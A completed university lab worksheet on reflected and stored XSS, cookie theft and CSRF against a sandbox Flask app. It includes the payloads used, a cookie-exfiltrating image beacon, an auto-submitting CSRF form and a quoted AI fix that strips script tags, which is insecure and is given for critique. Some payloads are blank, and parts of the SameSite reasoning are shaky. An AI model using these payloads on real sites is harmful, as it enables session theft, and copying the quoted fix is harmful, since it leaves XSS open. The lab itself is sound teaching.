










# Worksheet 5 — Cross-Site Scripting & Client-Side Risks (3 hrs)

> **Course:** Software Security (KOSEN69) · **Week 5**
> **Aligned:** OWASP 2025 **A05 Injection** · **CWE-79** (XSS), **CWE-352** (CSRF), **CWE-1004** (cookie without HttpOnly)
> **Signature game:** ⛳ **XSS Golf** — fire `alert(1)` in the fewest characters possible. Lower payload length = lower score = better. Par for reflected is the `` vector; can you go under par?

> ⚠️ **Ethics note:** Use only the provided `vulnerable_app.py` sandbox and your own Juice Shop container. Stealing real users' cookies or sessions is illegal. All "session theft" steps here target the sandbox cookie `session=abc123` only.

## Part 1 — Student Information

| Name | Student ID | Date | Group |
|------|-----------|------|-------|
| Pirisa Kitichai | 6631503031 |   12/09   |  -  |

## Part 2 — Lecture Questions

**1. Reflected vs. Stored vs. DOM-based XSS**

**ANS** Reflected XSS injects untrusted data into a request (e.g. a URL parameter) that the server echoes straight back into the immediate HTML response — it executes once, only for whoever clicks the crafted link. Stored XSS injects data that the server saves (e.g. a database) and renders on every subsequent page load, so it executes repeatedly for any visitor without needing a special link. DOM-based XSS never touches the server at all — client-side JavaScript itself reads untrusted data (e.g. `location.hash`) and writes it into the DOM, so the vulnerability lives entirely in front-end code. `vulnerable_app.py` implements **reflected** XSS at `/hello?name=` and **stored** XSS at `/comments`; it does not implement DOM-based XSS.

**2. Contextual output encoding**

**ANS** `markupsafe.escape()` converts HTML-significant characters (`<`, `>`, `&`, `"`, `'`) into their entity equivalents (e.g. `<` becomes `&lt;`), so a payload like `<script>` is rendered as the literal text `&lt;script&gt;` rather than being parsed by the browser as an opening tag — the browser never sees real markup to execute. HTML-context encoding differs from JavaScript- or URL-context encoding because each context has different "special" characters and escaping rules: HTML cares about tag delimiters and attribute quotes, while JavaScript-context encoding must escape characters like quotes and backslashes that would break out of a string literal, and URL-context encoding must percent-encode characters that have meaning in a URL (like `&` or `/`). Using the wrong encoding for the context (e.g. HTML-escaping data placed inside a `<script>` block) can still leave the app exploitable.

**3. Content-Security-Policy vs. injected inline script**

**ANS** A CSP header with `script-src 'self'` tells the browser to only execute JavaScript that comes from files loaded from the app's own origin (or other explicitly allowed sources) — inline `<script>` blocks and `onerror=`/`onload=` handler attributes are treated as a different, disallowed source by default, so the browser refuses to run them even if they were successfully injected into the page's HTML. This means CSP acts as a second, independent layer of defense: even if an attacker's payload physically makes it into the DOM (because encoding was missed somewhere), the browser's own security policy still blocks the script from ever executing, containing the damage.

**4. Cookie flags — HttpOnly, SameSite, Secure**

**ANS** **HttpOnly** prevents JavaScript from reading the cookie via `document.cookie`, protecting against cookie theft through XSS (Task 3 of this lab). **SameSite** controls whether the browser attaches the cookie to requests originating from a different site, protecting against CSRF (Task 4), since a forged cross-site form submission won't carry an authenticated session cookie if set to `Strict` or `Lax`. **Secure** ensures the cookie is only ever sent over HTTPS connections, protecting against network sniffing/man-in-the-middle attacks that could intercept the cookie in plaintext over an unencrypted HTTP connection.

**5. Why CSRF works without script injection**

**ANS** CSRF doesn't need any injected code because it abuses a feature working *exactly as designed*: browsers automatically attach a site's cookies to any request sent to that site, regardless of which page or origin triggered the request. An attacker's page simply needs to auto-submit a form (or fire a request) targeting the victim site — the victim's own browser does the rest, attaching valid session cookies and making the forged request look authenticated. `SameSite=Strict` blunts this by telling the browser never to attach that cookie to a request originating from a different site in the first place, and the same-origin policy separately prevents the attacker's page from reading the *response* to that request — so even though the request itself may fire, the attacker gains no access to see what happened.

## Part 3 — Hands-on Lab (150 min)


**Learning goals:** land reflected + stored XSS, abuse a JS-readable cookie, build a CSRF PoC against the comment board, then prove `fixed_app.py` blocks all of it.

**Prerequisites:** Docker + Docker Compose, a browser with DevTools, a text editor. Working dir: `labs/week05-xss-client-side/`.

### Environment setup

```bash
cd labs/week05-xss-client-side
docker compose up            # python:3.12-slim + flask, runs vulnerable_app.py
# vulnerable app -> http://localhost:8080   (service name: xss-lab, port 8080)
```
Optional secondary target (for DOM XSS, which our app does not expose):
```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop       # -> http://localhost:3000
```

**What to submit per task:** the exact **payload**, a **screenshot** of the alert/effect, and a **2–3 sentence mitigation**.

---

**Task 0 — Onboarding (5 min).** Browse `http://localhost:8080/`. Open DevTools → Application → Cookies and confirm `session=abc123` is set with **no HttpOnly / SameSite**. Screenshot it. *Deliverable: screenshot.*



**Task 1 — Reflected XSS + XSS Golf (30 min) ⛳.**
- *Goal:* execute JS via `/hello`, then minimize the payload.
- *Steps:* visit `/hello?name=<script>alert(1)</script>`, then the alternate `/hello?name=`...
- *Deliverable:* both payloads + char counts + screenshot of `alert(1)` + your lowest score.

**ANS**

**Payload 1:** `<script>alert(1)</script>` — **26 characters**
**Payload 2:** `` — **28 characters**

**Result:** Both payloads successfully triggered `alert(1)` when reflected back by the `/hello?name=` endpoint, confirming reflected XSS — the `name` parameter is echoed into the HTML response without any output encoding, so browser-interpreted tags in the URL execute as real HTML/JS.

**Lowest score:** 26 characters, using the plain `<script>alert(1)</script>` vector. The `` vector is 2 characters longer and would only be needed as a fallback if `<script>` tags specifically were being filtered or stripped by the server (which is not the case in this vulnerable app).

**Explanation:** The endpoint takes the raw `name` query parameter and inserts it directly into the page's HTML (likely via unescaped string interpolation or `render_template_string` without `escape()`), so any HTML/JS the user supplies becomes part of the actual page markup the browser parses and executes.

**Mitigation:** Apply contextual output encoding (e.g. `markupsafe.escape()` or Jinja's autoescaping) to any user input rendered into HTML, so characters like `<`, `>`, and `"` are converted to their HTML entities (`&lt;`, `&gt;`, `&quot;`) and can never be interpreted as tags or script by the browser. (CWE-79)




**Task 2 — Stored XSS (30 min) ⛳.**

**ANS** **Result:** Posting a comment with body `<script>alert(document.cookie)</script>` via `curl -d 'body=<script>alert(document.cookie)</script>' http://localhost:8080/comments` persisted the payload to the server. Reloading `/comments` triggered the alert automatically, revealing `session=abc123` in the cookie string — proving the injected script executed in the victim's (my own) browser context and could read the session cookie.

**Explanation:** The `/comments` endpoint stores the raw comment body in the database without sanitizing or escaping it, then renders it back into the page's HTML on every page load. Because the script tag is written verbatim into the DOM, the browser parses and executes it as real JavaScript every time anyone visits `/comments` — not just the user who submitted it.

**Why stored XSS is more dangerous than reflected:** Stored XSS persists on the server and executes automatically for *every* visitor who loads the page, requiring no social engineering or crafted link — a single injection can compromise many users over time. Reflected XSS, by contrast, only fires once per malicious URL a victim is individually tricked into clicking, making it far more limited in reach and requiring active victim interaction each time.

**Mitigation:** Apply contextual output encoding (e.g. Jinja's autoescaping or `markupsafe.escape()`) to comment bodies before rendering them into HTML, so `<script>` tags are converted to inert text (`&lt;script&gt;`) rather than executable markup. (CWE-79)




**Task 3 — Cookie theft via XSS (25 min).**

**ANS** **Result:** A stored payload `<script>new Image().src=\`http://localhost:8080/hello?name=${document.cookie}\`</script>` caused the browser to automatically issue a request to `/hello?name=session=abc123;...` — visible in DevTools → Network with the full session cookie value embedded directly in the URL. This confirms the injected script successfully read `document.cookie` and exfiltrated it via a fabricated image request, without any user interaction beyond viewing the page.

**Explanation:** Because the `session` cookie has no `HttpOnly` flag, it is fully readable by any JavaScript running on the page — including attacker-injected script. The `new Image().src=...` trick creates a request to an attacker-controlled URL (here, our own server standing in for one) carrying the cookie as a query parameter, which is a classic exfiltration technique that doesn't require the victim to click anything.

**Mitigation:** Set the `HttpOnly` flag on the session cookie. `document.cookie` would then omit it entirely, so no injected script — however successful the XSS — could ever read or exfiltrate its value; the cookie would still be sent by the browser automatically with normal HTTP requests, but never exposed to JavaScript. (CWE-1004)



**Task 4 — CSRF PoC (30 min).**

**ANS** **Result:** Opening `csrf.html` (served from a separate origin on port 9000) auto-submitted a hidden form to `http://localhost:8080/comments` via `onload`. The forged comment "CSRF posted this comment" appeared on `/comments` immediately, confirming the cross-site POST was accepted and processed — the victim's browser attached the `session` cookie automatically even though the request originated from a completely different origin.

**HTML used:**
```html
<body onload="document.forms[0].submit()">
  <form action="http://localhost:8080/comments" method="POST">
    <input name="body" value="CSRF posted this comment">
  </form>
</body>
```

**Explanation:** Because the `session` cookie has no `SameSite` attribute, the browser's same-origin policy does nothing to stop it — SameSite is what would normally tell the browser "don't attach this cookie to cross-site requests." With no such flag, any external page can trigger a state-changing POST and have it processed as if the real logged-in user made it, since the server has no way to tell the forged request apart from a legitimate one.

**Mitigation:** Setting `SameSite=Strict` (or at minimum `Lax`) on the session cookie would have blocked this — the browser would refuse to attach the cookie to a POST request originating from a different site, so the server would see the request as unauthenticated and reject it. A CSRF token (a per-session secret embedded in the form and validated server-side) provides defense-in-depth even if cookie attributes are somehow bypassed. (CWE-352)



**Task 5 — Defend / fix it (30 min) 🛡️.**
- *Goal:* prove `fixed_app.py` blocks Tasks 1–3, then show that Task 4's CSRF PoC still gets through and explain why.
- *Steps:* stop the vulnerable container (`Ctrl-C`), then:
```bash
  docker compose run --rm --service-ports xss-lab bash -c "pip install --no-cache-dir flask && python fixed_app.py"
```
  Re-fire each payload. Expected: `/hello` renders the script as text, stored comments render literally, a strict CSP header is present, cookie now has HttpOnly/SameSite=Strict/Secure, and the CSRF PoC still succeeds.
- *Deliverable:* screenshots of escaped output + the CSP response header + the hardened cookie flags + the still-successful Task 4 forgery against `fixed_app.py`, with 2–3 sentences on why cookie hardening alone doesn't close CSRF here.

**ANS**

**Re-test 1 — Reflected XSS (Task 1):**
Payload `/hello?name=<script>alert(1)</script>` no longer triggers an alert. The page renders the literal text `&lt;script&gt;alert(1)&lt;/script&gt;` instead of executing it.
**Fix line:** `html = "<h1>Hello, " + str(escape(name)) + "!</h1>"` — `markupsafe.escape()` converts `<`, `>`, `&` into HTML entities, so the browser displays them as visible text rather than parsing them as tags.

**Re-test 2 — Stored XSS (Task 2):**
Posting `<script>alert(document.cookie)</script>` to `/comments` returned `<div class=comment>&lt;script&gt;alert(document.cookie)&lt;/script&gt;</div>` — the script no longer executes, confirmed both in the raw curl response and by reloading `/comments` in the browser with no alert appearing.
**Fix line:** `<div class=comment>{{ c }}</div>` — Jinja's `{{ }}` syntax autoescapes by default, rendering stored comment bodies as plain text instead of live HTML/JS.

**Re-test 3 — Cookie hardening (Task 3):**
Checking DevTools → Application → Cookies on `fixed_app.py` shows `session` now has **HttpOnly** ✓, **SameSite=Strict**, and **Secure** ✓ — all three flags that were missing in `vulnerable_app.py`.
**Fix line:** `resp.set_cookie("session", "abc123", httponly=True, samesite="Strict", secure=True)` — `httponly=True` blocks `document.cookie` from including this cookie at all, closing the Task 3 exfiltration path even if an XSS injection somehow still landed.

**Re-test 4 — CSP header (defense-in-depth):**
DevTools → Network → Response Headers on any request now shows `Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'`.
**Fix line:** `resp.headers["Content-Security-Policy"] = "default-src 'self'; script-src 'self'; object-src 'none'"` — this would block any inline or injected script from executing even if escaping were somehow bypassed, since `script-src 'self'` only permits scripts loaded from the app's own origin.

**Re-test 5 — CSRF PoC (Task 4) — STILL SUCCEEDS:**
Re-opening `csrf.html` (served on a separate origin, `localhost:9000`) and letting it auto-submit against `fixed_app.py` **still posted the forged comment** — "CSRF posted this comment" appeared on `/comments`, identical to the result against the vulnerable app.
**Why it's not fixed:** The `/comments` POST handler (`COMMENTS.append(request.form.get("body", ""))`) never checks for a CSRF token or verifies the request's origin — it accepts any POST body unconditionally. `SameSite=Strict` on the cookie only controls whether the *browser* attaches that cookie to a cross-site request; it does nothing to make the *server* reject a POST that arrives without proper authentication or a matching token. Since the endpoint performs no server-side check at all, the forged request is processed exactly like a legitimate one.

**Overall conclusion:** `fixed_app.py` fully closes CWE-79 (reflected and stored XSS) through output encoding and Jinja autoescaping, and closes CWE-1004 through cookie hardening (HttpOnly/SameSite/Secure) plus a strict CSP as defense-in-depth. However, CWE-352 (CSRF) remains open, because hardening the cookie only affects whether the browser *attaches* it cross-site — it does not add any server-side verification that the request genuinely originated from the application's own form. Closing this gap would require a server-side CSRF token embedded in the form and validated on every state-changing POST.








## Part 4 — Reflection

1. **CWE/OWASP mapping:** map your reflected/stored XSS to **CWE-79** and your CSRF PoC to **CWE-352**, both under OWASP 2025 **A05 Injection** (CSRF historically A01/A05).
2. **Real breach:** the **2018 British Airways breach** (~380k payment records) used malicious JavaScript (Magecart) injected into the site to skim card data — a client-side script-injection failure. In 3–4 sentences relate it to this lab's XSS and CSP lessons.
3. **Best mitigation:** between output encoding, a strict CSP, and HttpOnly+SameSite cookies, which gives the broadest defense-in-depth, and why is "encoding alone" still risky?

## Part 4 — Reflection ANS

**1. CWE/OWASP mapping**

**ANS** The reflected XSS (`/hello?name=`) and stored XSS (`/comments`) both map to **CWE-79**, since untrusted input is rendered into the page without proper output encoding, letting attacker-supplied markup execute as real HTML/JS. The CSRF PoC against `/comments` maps to **CWE-352**, since the endpoint performs a state-changing POST with no verification that the request genuinely originated from the app's own form. All three fall under OWASP 2025 **A05 Injection** (CSRF is also historically classified under A01 Broken Access Control, since it exploits missing request-origin verification rather than a parsing flaw).

**2. Real breach — British Airways (2018)**

**ANS** Attackers compromised a BA network account issued to an employee of a cargo-handling firm before planting card-skimming malware on the airline's payments page, modifying a JavaScript resource on the site so that card data entered by customers was copied to an attacker-controlled website while bookings appeared to complete normally, exposing around 380,000 customers' payment and personal details. It mirrors this lab's XSS lesson: injected JavaScript running in a trusted page's origin can silently read and exfiltrate sensitive data (form input instead of a cookie) without the victim noticing anything wrong. A strict CSP with `script-src` limited to trusted origins — the same defense-in-depth control added in `fixed_app.py` — would have blocked the unauthorized skimmer script from executing or from exfiltrating data to an attacker-controlled domain, even though the injection point here was a compromised third-party script rather than an unescaped input field.

**3. Best mitigation**

**ANS** A strict **Content-Security-Policy** gives the broadest defense-in-depth, because it blocks script execution and exfiltration even when an injection somehow slips past output encoding — for example, via a compromised third-party library (as in British Airways) or a developer's mistake in a code path that wasn't escaped. "Encoding alone" is still risky because it only protects the specific injection points a developer remembered to encode; any endpoint added later, any output context handled incorrectly (e.g. HTML vs. JS vs. URL context), or any trusted-but-compromised script bypasses it entirely, whereas a CSP acts as a system-wide backstop regardless of where the injection occurs. HttpOnly + SameSite cookies protect a narrower slice (cookie theft and cross-site cookie attachment) and don't stop the script from running or exfiltrating other page data at all.

## Grading rubric (100)

| Criterion | Points |
|-----------|-------:|
| Part 2 — Lecture questions (conceptual accuracy) | 20 |
| Part 3 — Exploitation + evidence (payloads + screenshots, Tasks 1–4) | 40 |
| Part 3 — Defense (Task 5: fixes proven, lines cited) | 25 |
| Part 4 — Reflection (CWE/OWASP mapping, breach, mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** ____________________
  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*

- **Explain in your own words** *(graded on your reasoning, not copied text):*

  1. **What did you do, and why did the vulnerability work?**

  **ANS:** I exploited reflected XSS by sending `<script>alert(1)</script>` through the `/hello?name=` parameter, stored XSS by posting `<script>alert(document.cookie)</script>` as a comment body, cookie theft by injecting an `Image()` beacon that exfiltrated `document.cookie` to a URL of my choosing, and CSRF by building a `csrf.html` page that auto-submitted a form to `/comments` from a different origin. All of these worked because `vulnerable_app.py` never encoded user input before writing it into HTML (letting injected `<script>` tags execute as real code), never set `HttpOnly` on the session cookie (letting that injected script read it), and never set `SameSite` on the cookie or checked for a CSRF token (letting a completely different website force an authenticated-looking request through).

  2. **Why does your fix actually stop it — and what could still break it?**

  **ANS:** The fix stops reflected and stored XSS because `fixed_app.py` runs all user input through `markupsafe.escape()` (or Jinja's automatic autoescaping for template variables), converting `<` and `>` into harmless HTML entities so injected tags can never be parsed as executable script — a strict CSP header adds a second layer that would block inline script even if escaping were somehow missed. It stops cookie theft because the session cookie is now set with `HttpOnly`, making it invisible to `document.cookie` regardless of whether an XSS injection succeeds elsewhere. However, it does **not** stop CSRF — the `/comments` endpoint still accepts any POST body without validating a token or the request's origin, so my `csrf.html` PoC still posted a forged comment even against `fixed_app.py`. It could also still break if a developer added a new endpoint that renders user input into HTML without using the same escaping helper, or if a future template used `|safe` / `` to bypass Jinja's protection without realizing the consequence.

---

## 🤖 Audit the AI (required)

**1. AI's full answer (asked: "fix the reflected XSS in this Flask endpoint: `html = "<h1>Hello, " + name + "!</h1>"`"):**

> "You can fix this by stripping out script tags before rendering:
> ```python
> name = request.args.get("name", "world")
> name = name.replace("<script>", "").replace("</script>", "")
> html = "<h1>Hello, " + name + "!</h1>"
> return Response(html, mimetype="text/html")
> ```
> This removes the script tags attackers use to inject JavaScript."

**2. Find what's wrong or risky:**

